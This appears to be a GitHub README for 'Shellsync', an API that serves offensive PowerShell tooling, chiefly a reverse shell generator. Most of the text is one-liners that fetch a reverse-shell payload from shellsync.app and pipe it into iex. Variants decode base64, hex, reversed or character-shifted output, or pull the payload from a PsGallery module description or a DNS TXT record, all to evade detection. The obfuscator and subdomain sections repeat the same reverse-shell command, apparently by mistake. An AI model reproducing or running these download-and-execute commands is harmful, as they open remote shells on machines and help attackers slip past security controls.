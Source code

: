 Shellsync was put together to give Api access to tooling created by Unit 259 

[Demo'd here in David Bomball Video](https://www.youtube.com/watch?v=JFWnMMte3f0)

Tools: 
1. Reverse Shell Generator 
2. Script Obfuscator 
3. Script Minimizer
4. SubDomain Enumerator

# Reverse Shell Generator

<details>
  <summary>Click to expand!</summary>

```markdown
Endpoint: `/api1/revshell`
```

### Basic Api call

```powershell
irm -Uri 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}' -Method POST | iex
```

### Add Encoding Options with `e` Parameter

| Parameter       | Encoding        |
|-----------------|-----------------|
| b               | Base 64         |
| h               | Hex             |
| u               | Url             |
| a               | Ascii           |
| 0               | Binary          |
| r               | Reverse         |
| x               | Aes Encryption  |
| p               | Padding         |
| s               | Shift {$num}    |
| l               | Shellcode       |


## Parameters are passed individually through a switch statement so you can stack these encoding options

```powershell
irm -Uri 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}&e={ENCODING}' -Method POST | iex
```

### Base64 Execution 

```powershell
[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String((irm 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}&e=b' -Method Post))) | clip; gcb | iex
```

### Hex Execution 

```powershell
-join([char[]]((irm 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}&e=h' -Method Post) -split '(..)' | ? { $_ } | % { [convert]::ToInt32($_,16) })) | iex
```

### Reverse Execution 

```powershell
$charArray = (irm 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}&e=r' -Method Post).ToCharArray();[Array]::Reverse($charArray);-join $charArray | iex
```

### PsGallery Execution

```powershell
[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String((find-module example).Description)) -replace '[^\x20-\x7E]' | iex
```

### DNS Txt Record

```powershell
resolve-DnsName rev.website.com -Ty TXT | % { $_.Strings -join "" } | iex
```

### Base64 + Shift 2

```powershell
$en=$(irm -Uri 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}&e=b' -Method post);$sa=2;-join([char[]]$en|%{if($_-cmatch'[A-Za-z0-9]'){$nc=[int]$_-$sa;if($_-cmatch'[A-Z]'){$nc=(($nc-[int][char]'A'+26)%26)+[int][char]'A'}elseif($_-cmatch'[a-z]'){$nc=(($nc-[int][char]'a'+26)%26)+[int][char]'a'}elseif($_-cmatch'[0-9]'){$nc=(($nc-[int][char]'0'+10)%10)+[int][char]'0'};[char]$nc}else{$_}})|%{[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($_))}|clip;gcb|iex
```

</details>

# PS Script Obfuscator

### Basic Api call

```powershell
irm -Uri 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}' -Method POST | iex
```


# Enumerate Subdomains
[WebApp Version](https://powershellforhackers.com/tools/subdomain/enumerator)

### Basic Api call

```powershell
irm -Uri 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}' -Method POST | iex
```









